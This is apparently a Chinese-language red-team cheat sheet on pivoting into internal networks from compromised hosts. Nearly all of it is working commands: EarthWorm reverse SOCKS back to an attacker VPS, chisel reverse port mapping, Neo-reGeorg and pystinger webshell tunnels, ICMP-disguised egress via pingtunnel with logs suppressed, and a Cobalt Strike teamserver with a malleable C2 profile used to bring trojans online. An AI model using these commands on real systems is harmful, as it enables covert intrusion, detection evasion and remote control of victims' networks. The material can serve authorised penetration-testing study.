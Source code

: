 

[TOC]



# EarthWorm内网穿透

## 正向socks5服务器

当目标网络边界存在公网IP且可任意开监听端口 

```bash
./ew_linux_x64 -s ssocksd -l 1080
```

可在该目标机器上开启一个8888的正向连接，然后其他主机可通过SwitchyOmega设置socks5代理为目标主机ip:1080 ，添加这个代理就可以使用了

## 反向socks5服务器

### 服务器（外网vps）

```bash
./ew_linux_x64 -s rcsocks -l 1080 -e 5555
```

解释：把1080端口收到的请求转发给5555端口。

### 目标主机

通过CS把ew传到目标主机上，在指定目录输入命令`ew_win32.exe -s rssocks -d vpsip -e 5555`

```bash
shell C:\Users\admin\Downloads\ew\release\ew_win32.exe -s rssocks -d 192.168.211.129 -e 5555
```

解释：在目标主机启动服务，反弹到公网主机的5555端口。

通过SwitchyOmega设置socks5代理为vps的ip:1080挂上代理就成功了，可以访问内网了。

# chisel（http协议）

vps上执行

```bash
./chisel server -p 6666 -reverse
```

获取密钥，再到肉鸡上执行`chisel client -fingerprint 密钥 -v vps地址:端口 R:0.0.0.0:13389:127.0.0.1:肉鸡想映射的端口`

```cmd
C:\Users\root\Desktop\icmp代理>chisel.exe client -fingerprint DiGhDFpt5cE+hqJb+plMzB5HyJIKYXTKfXA2L75WWGU= -v 192.168.211.129:6666 R:0.0.0.0:13389:127.0.0.1:80
```

成功后，访问vps的13389端口就是肉鸡80端口

# Neo-reGeorg

生成有密码的webshell并上传到WEB服务器`python neoreg.py generate -k 密码`

```bash
python3 neoreg.py generate -k password
```

使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理`python neoreg.py -k 密码 -u http://肉鸡ip/tunnel.php`

```bash
python3 neoreg.py -k password -u http://192.168.211.140/tunnel.php
```

默认在本地1080端口，通过SwitchyOmega设置socks5代理为127.0.0.1:1080挂上代理，访问127.0.0.1就是web服务器（隧道只能本地访问）

# 伪装成icmp出网

## 服务器（外网vps）

把10080端口收到的请求转发给8898端口。

```bash
./ew_for_linux -s rcsocks -l 10080 -e 8898
```

开启pingtunnel服务端

```bash
./pingtunnel -type server
```

## 目标主机

通过CS把ew、pingtunnel传到目标主机上，在指定目录输入命令

在目标主机启动pingtunnel服务，一定要加noprint nolog两个参数，否则会生成大量的日志文件`pingtunnel.exe -type client -l 127.0.0.1:9999 -s vps -t vps:8898 -sock5 -1 -noprint 1 -nolog 1`

```cmd
C:\Users\root\Desktop\内网代理>pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.211.129 -t 192.168.211.129:8898 -sock5 -1 -noprint 1 -nolog 1
```

在目标主机启动ew服务

```cmd
C:\Users\root\Desktop\内网代理>ew_for_win_32.exe -s rssocks -d 127.0.0.1 -e 9999
```

通过SwitchyOmega设置socks5代理为vps的ip:10080挂上代理就成功了，可以访问内网了。

# 伪装成http出网

Step1.肉鸡上开启pystinger服务端：

```cmd
C:\Users\root\Desktop\内网代理\dist>stinger_server.exe 0.0.0.0
```

Step2.上传webshell到肉鸡web目录：

Step3.vps上开启pystinger客户端：`./stinger_client -w http://肉鸡ip/proxy.php -l 127.0.0.1 -p 60000`

```bash
./stinger_client -w http://192.168.211.140/proxy.php -l 127.0.0.1 -p 60000
```

vps启动cs，cs连接

```bash
./teamserver vpsip 密码 ./malleable-c2-master/jquery-c2.4.3.profile
```

出网肉鸡：

监听都写127.0.0.1，端口60020，生成对应木马上线

不出网肉鸡：

监听都写肉鸡内网IP地址，端口60020，生成对应木马上线